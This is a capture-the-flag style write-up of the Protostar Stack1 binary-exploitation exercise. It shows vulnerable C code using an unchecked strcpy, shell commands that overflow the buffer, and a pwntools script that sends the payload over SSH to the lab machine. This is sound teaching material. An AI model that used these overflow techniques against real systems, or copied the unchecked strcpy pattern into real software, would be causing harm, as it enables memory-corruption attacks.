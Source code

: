```yaml
---
title: Protostar - Stack1
description: My writeup on stack1 challenge.
categories:
 - binary exploitation
tags: binary exploitation, protostar
---
```


You can find the protostar there > [Protostar](https://exploit-exercises.lains.space/protostar/){:target="_blank"}

We have the source code of the binary :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

We have a variable called `buffer` with 64bytes buffer, then we have `argc` (number of arguments passed) program name is one of them.

Then we have the `modified` variable & the most important the vulnerable `strcpy` function.

`strcpy` -> doesn't do any length checking

Then we have an if statement, if `modified == 0x61626364` we get the flag.

`0x61626364` in Ascii is :

```python
>>> "61626364".decode('hex')
'abcd'
```

Let's run the binary.

```bash
user@protostar:/opt/protostar/bin$ ./stack1
stack1: please specify an argument

user@protostar:/opt/protostar/bin$ ./stack1 1337
Try again, you got 0x00000000
```

Let's enter now 65bytes.

```bash
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c 'print "A" * 65')
Try again, you got 0x00000041
```

We got `0x00000041`, `41 == A`, we simple now add `abcd` in little endian.

```python
>>> from pwn import *
>>> p32(0x61626364)
b'dcba'
```

```bash
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c 'print "A" * 64 + "dcba"')
you have correctly got the variable to the right value
```

Let's write an exploit now with `pwntools`

```python
#!/usr/bin/env python3

from pwn import *
#context.log_level = 'debug'
shell = ssh('user', '$private_ip', password='user', port=22)
sh = shell.run('sh')
sh.sendline('/opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba')
log.success(sh.recvline())
```

Let's execute it.

```bash
$ ./exp.py 
[+] Connecting to $private_ip on port 22: Done
[*] user@$private_ip:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Opening new channel: 'sh': Done
[+] b'$ you have correctly got the variable to the right value\n'
```
